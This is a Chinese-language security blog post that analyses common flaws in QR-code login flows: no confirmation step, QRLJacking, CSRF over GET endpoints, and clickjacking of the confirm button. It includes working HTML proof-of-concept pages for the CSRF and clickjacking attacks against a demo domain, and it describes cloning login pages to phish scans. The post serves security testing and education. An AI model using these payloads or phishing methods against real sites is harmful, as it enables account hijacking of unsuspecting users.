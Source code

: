 ```yaml
---
layout: post
author: Vulkey_Chen
title: "二维码登陆的常见缺陷剖析"
date: 2018-04-08
categories: 二维码登陆
permalink: /archives/2018-04-08/1
description: "二维码登陆，在表面上来看好像是很安全，但是深入去研究会发现很多都是存在安全隐患～"
---
```


#  二维码登陆的常见缺陷剖析

现在很多的电商平台和互联网型企业都有自己的手机APP，为了方便用户的体验，于是就有了"扫码登陆"这样的功能。看似扫码登陆，实际上还是基于HTTP请求来完成的。

## 了解扫码登陆步骤

标准的二维码登陆流程如下：
1. 打开web界面进入登陆然后加载二维码
2. 网站开始轮询，来检测二维码状态
3. 打开手机APP进入"扫一扫"，扫描二维码
4. 网站检测到二维码被扫描，进入被扫描后的界面，继续轮询来获取凭证
5. 手机APP进入确认登陆界面
6. (当点击确认登陆)网站轮询结束获取到了凭证，进入个人中心；(当取消登陆)网站轮询设定时间自动刷新页面。

## 常见缺陷剖析

### 0x00 非标准扫码登陆流程缺陷

#### 非标准流程描述

扫描登陆的流程如果不按照标准来做也会存在很多问题，国内一些企业在处理这些的时候省略了如上所述的第五步骤和第六步骤，而是直接扫描后立即登陆。

#### 分析非标准流程可能存在的问题

- 可进行1:1比例诱导扫描

二维码是一张图片而图片是可以移植的，所以我们可以1:1克隆一个登陆页面来诱导用户进行扫描，这样就可以直接获取用户的权限了。

因为保密协议的问题，这里不对漏洞详情进行描述，简单的使用文字进行叙述：

在测试这种问题的时候，只需要按照步骤去测试下即可发现是否有相对于的问题，我一般会使用浏览器ctrl+s快捷键先克隆下来，因为这样会自带css和js等文件，剩下的只需要你处理一下就行了，也可以参考我之前的文章：[微信Netting-QRLJacking分析利用-扫我二维码获取你的账号权限](https://bbs.ichunqiu.com/thread-25923-1-1.html)，方法类似就行，但是这里的微信二维码登录是基于OAuth2.0协议的，所以当用户点击之后，我只要获取到授权凭证链接就行了，而一般的二维码登陆是不基于OAuth2.0协议的，就需要处理好你的交互问题。

### 0x01 QRLJacking-二维码登陆劫持

2017年OWASP推出了这种攻击方式：https://www.owasp.org/index.php/Qrljacking

因为OWASP上有详细的介绍，所以在这里我就不以实际案例来说明了。

补充的一点是在0x00中我已经说明了之前一篇文章[微信Netting-QRLJacking分析利用-扫我二维码获取你的账号权限](https://bbs.ichunqiu.com/thread-25923-1-1.html)，在这里我称之为Netting-QRLJacking是因为我们可以使用钓鱼网站方式的方法进行大面积撒网~而其实这里是利用了OAuth2.0的一个流程特征，我们想进行二维码登录劫持的时候也可以利用"扫码登陆"的流程特征。

之前已经把"扫码登陆"的流程说的很清楚了，我们知道其中一步轮询是用户点击确认登陆之后就通过轮询这个接口可以直接获得凭证，利用这个特点就行了。

**小提示：**整个流程划分为一个一个的接口来测试，你会更清楚的。

### 0x02 CSRF跨站请求访问

之在0x01说了，把整个流程划分为一个个的接口来测试，你就会更清楚，其实潜台词就是**"你会发现更多漏洞"**~

以一个实际例子来讲解：

在测试一个站点的时候遇到的问题，其扫码登陆的流程全部为GET类型请求：

1. 打开web界面进入登陆然后加载二维码**（http://www.gh0stdemo.cn/getqrcode 返回一段uuid 二维码的链接为 http://www.gh0stdemo.cn/qrcode?code=qrcode）**
2. 网站开始轮询，来检测二维码状态**（http://www.gh0stdemo.cn/getqrlstate?code=qrcode）**
3. 打开手机APP进入"扫一扫"，扫描二维码**（http://www.gh0stdemo.cn/qrcode?code=qrcode）**
4. 网站检测到二维码被扫描，进入被扫描后的界面，继续轮询来获取凭证**（http://www.gh0stdemo.cn/getqrlstate?code=qrcode）**
5. 手机APP进入确认登陆界面**（这步骤必须需要经过第四步骤之后才可以 http://www.gh0stdemo.cn/putqrlstate?code=qrcode）**
6. (当点击确认登陆)网站轮询结束获取到了凭证，进入个人中心；(当取消登陆)网站轮询设定时间自动刷新页面。


在这里我们可以构建这样的PoC：

```html
<!DOCTYPE html>
<html>
<head>
	<title>PoC</title>
</head>
<body>
<script>
function loadsrc(){
	document.getElementById("test1").src="http://www.gh0stdemo.cn/qrcode?code=qrcode";
}
setTimeout('loadsrc()',1000);
</script>
<iframe id="test1" src="http://www.gh0stdemo.cn/putqrlstate?code=qrcode">
</iframe>
</body>
</html>
```

很简单的一个PoC就构成了，这里也确实存在CSRF的问题，可能在这里有人会想到攻击面得问题，仅仅只限于APP端？当然不，其实原理是一样得，都是把自己的凭证(Cookie)发出去，所以在电脑的web端只要登陆了一样可以完成攻击步骤~

当然在这里也有POST形式的CSRF，因为内容重复度过高就不一一举例了。

### 0x03 ClickJacking-点击劫持

点击劫持，视觉欺骗

根据扫码登陆的流程中我们可以看到有一个流程强制的要求了用户去点击确认登陆的按钮，但是这个界面往往没有做点击劫持的防范：

在我之前的一篇文章中详细讲了PoC的制作方法：http://gh0st.cn/archives/2017-12-20/1

之前跟一朋友在测试的时候发现了一些问题，有些网站用iframe标签引用进来，不会百分百的自适应，在这里我使用了div为父元素，如何再在div里面写入iframe这个子元素来自适应就行了。

```html
<html>
<head>
<meta name="referrer" content="never">
<style type="text/css"> 
.testframe {
	height: 100%;
} 
iframe {
	height: 100%;
	width: 100%;
	border: 0;
	margin: 0;
	padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
.btn {
    position: fixed;
    width: 97%;
    height: 42px;
    margin: 0 auto;
    left: 0;
    right:0;
    display:block;
    top: 815px;
} 
</style>
</head>
<body>
<div class="testframe">
	<input type="button" class="btn" value="Click">
	<iframe src="http://www.gh0stdemo.cn/qrcode?code=qrcode"></iframe>
</div>
</body>
</html>
```

示例结果：

![http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-08/0x00.png](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-08/0x00.png)



## 结尾

本文没详细的去写，仅仅记录笔者的实践过程和心得。